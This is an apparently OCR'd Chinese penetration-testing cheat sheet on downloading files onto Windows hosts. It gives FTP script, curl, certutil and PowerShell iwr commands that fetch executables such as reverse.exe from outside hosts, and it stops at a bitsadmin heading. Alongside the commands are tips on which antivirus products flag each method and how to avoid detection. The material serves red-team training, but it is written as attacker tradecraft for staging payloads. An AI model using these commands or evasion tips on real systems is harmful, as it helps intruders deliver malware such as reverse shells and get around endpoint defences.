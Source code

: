 # **windows远程下载**

### **常规下载**

**FTP**

注意：火绒会拦截

把下面内容复制到a.txt文件中

```
ftp 
open 1.1.1.1 21 #与1.1.1.1的21端口建立连接
use    #以use用户命登录
passwd #密码
bin #切换为二进制格式传输
get a.exe #复制根目录下的a.exe
bye#结束
然后使用ftp -s:a.txt 进行连接
```

**Curl**

curl是一个命令行访问URL的计算机逻辑语言的工具，发出网络请求，然后得到数据并提取出，显示在标准输出“stdout”上面，可以用它来构造http request报文，curl(CommandLine Uniform Resource Locator),即在命令行中利用URL进行数据或者文件传输。

```
curl -o C:\temp\geek.exe  http://192.168.31.205/geek.exe
```

**Certutil**

windows下一款下载文件的工具，自从WindowsServer 2003就自带。但是在Server 2003使用会有问题。

也就是说，以下命令是在Win7及其以后的机器使用。但是该命令的使用会引发杀毒软件的查杀，所以在实际渗透中几乎不适用该命令。

```
certutil -urlcache -split -f http://10.6.54.194:8000/reverse.exe #下载文件到当前目录下 
certutil -urlcache -split -f http://10.6.54.194:8000/reverse.exe c:/users/staccato/desktop/reserver.exe        #下载文件到指定目录下
```

**iwr**

iwr是PowerShell下的一款工具，所以我们如果在cmd下执行该命令的话，需要在前面加powershell命令；

但是这会被安全软件检测到。所以在执行前，先进入powershell下。

```
iwr -Uri http://www.test.com/vps.exe -OutFile vps.exe -UseBasicParsing 
powershell iwr -Uri http://www.test.com/vps.exe  -OutFile c:\users\gao\desktop\1.exe -UseBasicParsing
```

**bitsadmin**

bitsadmin 可以用来在windows 命令行下下载文件。bitsadmin是windows 后台智能传输服务的一个工具，windows 的自动更新，补丁之类的下载就是用这个工具来实现的。Windows Server2003和XP是没有bitsadmin的，Winc7及其之后的机器才有。
